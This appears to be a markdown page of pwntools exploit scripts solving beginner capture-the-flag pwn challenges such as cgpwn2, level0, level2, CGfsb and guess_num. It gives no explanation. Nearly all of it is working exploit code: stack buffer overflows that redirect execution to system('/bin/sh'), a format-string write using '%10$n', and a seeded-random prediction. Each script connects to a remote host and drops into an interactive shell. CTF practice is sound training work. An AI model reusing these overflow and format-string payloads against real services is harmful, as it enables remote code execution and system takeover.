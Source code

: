 # cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

# when_did_you_born

```python
from pwn import *
p=remote('111.198.29.45',38206)
pay1='1999'
pay2='a'*8+p64(1926)
p.recvuntil('?')
p.sendline(pay1)
p.recvuntil('?')
p.sendline(pay2)
p.interactive()
```

# CGfsb

```python
from pwn import *
p=remote('111.198.29.45',57986)

addr=0x0804a068
pay1='ffdy'
pay2=p32(addr)+'a'*4+'%10$n'

p.recvuntil(':')
p.sendline(pay1)
p.recvuntil(':')
p.sendline(pay2)
p.interactive()
```

# hello_pwn

```python
from pwn import *
pay='a'*4+p64(1853186401)
p=remote('111.198.29.45',35522)
p.recvuntil('bof')
p.sendline(pay)
p.interactive()
```

# level0

```python
from pwn import *
p=remote('111.198.29.45',51703)
addr=0x400596
pay='a'*(0x80+8)+p64(addr)
p.sendline(pay)
p.interactive()
```

# level2

```python
from pwn import *

p=remote('111.198.29.45',48633)

elf=ELF('./level2-6')
saddr=elf.symbols['system']
binaddr=elf.search('/bin/sh').next()
#saddr=0x8048320
#binaddr=0x804a024

pay='a'*(0x88+4)+p32(saddr)+'a'*4+p32(binaddr)
p.recvuntil('Input:')
p.sendline(pay)
p.interactive()
```

# guess_num
```cpp
#include<cstdio>
#include<cstring>
#include<algorithm>
int main(){
	srand(1);
	for(int i=0;i<=9;i++){
		printf("%d ",rand()%6+1);
	}
	return 0;
} 
```
```python
from pwn import *

p=remote('111.198.29.45',36870)

pay='a'*(0x30-0x10)+p64(0)

s='2 5 4 2 6 2 5 1 4 2'
s=s.split(' ')

p.recvuntil(':')
p.sendline(pay)
for i in range(10):
    p.recvuntil(':')
    p.sendline(s[i])

p.interactive()
```
# sztrunbg
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTM4NzQ1Nzk5Niw2MDU0NjcxMV19
-->